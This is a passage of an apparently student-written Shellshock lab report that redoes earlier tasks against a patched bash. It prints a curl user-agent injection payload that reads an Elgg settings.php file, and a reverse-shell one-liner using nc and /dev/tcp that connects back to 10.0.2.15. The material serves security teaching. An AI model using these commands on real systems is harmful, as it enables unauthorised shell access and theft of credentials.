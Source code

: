 
![](/assets/images/media/16326883206491/16327659716758.jpg)

### 6.3 Redo Task03
#### 6.3.1 Modified the myprog.cgi
We changed the codes in `/usr/lib/cgi-bin/myprog.cgi` to make it use the `Bashv4.2` compiled before. The codes in the changed file is shown below: 
```shell
#!/home/seed/Labs/w4/task06/bash-4.2/bash

echo "Content-type: text/plain"
echo
echo "******Environment Variables ****** "
strings /proc/$$/environ
```
#### 6.3.2 Change the user-agent
We executed the command below again to check whether the variable `HTTP_USER_AGENT` will be changed. 
```
$ curl http://localhost/cgi-bin/myprog.cgi -A "TEST" | grep USER_AGENT
```
Image below shown that the user-agent is still changed in the patched bash. 
![](/assets/images/media/16326883206491/16327666168176.jpg)

### 6.4 Redo Task04
We were curious whether our attack still work. Therefore, we execute the attack command below again. 
```shell 
$  curl http://localhost/cgi-bin/myprog.cgi -s -A \
"() { echo hello; }; echo Content_type: text/plain; echo;\
/bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
```
The image below shows that previous attack commands cannot work anymore. The server handler our user-agent value as an environmental variable instead of a function. Furthermore, the malicious code did not execute in this case. 
![](/assets/images/media/16326883206491/16327670674094.jpg)

#### 6.5 Redo Task05
We firstly re-tried the reveres bash. We reused all previous commands in task05, and these codes are demonstrated below. 
```shell
# Commands used on attacker. 
$ echo 'export PS1="[ATC]\[\e[1;32m\]\u@\h\[\e[m\]:\w\\$ "' >> ~/.bashrc
$ source ~/.bashrc
$ nc -l 9090 -v

# Commands used on server. 
$ echo 'export PS1="[SEV]\[\e[1;36m\]\u@\h\[\e[m\]:\w\\$ "' >> ~/.bashrc
$ source ~/.bashrc
$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1

```
Image below is the output, where the reverse bash still work. It is because it do not use the `Bash v4.2` in there. 
![](/assets/images/media/16326883206491/16327700510840.jpg)
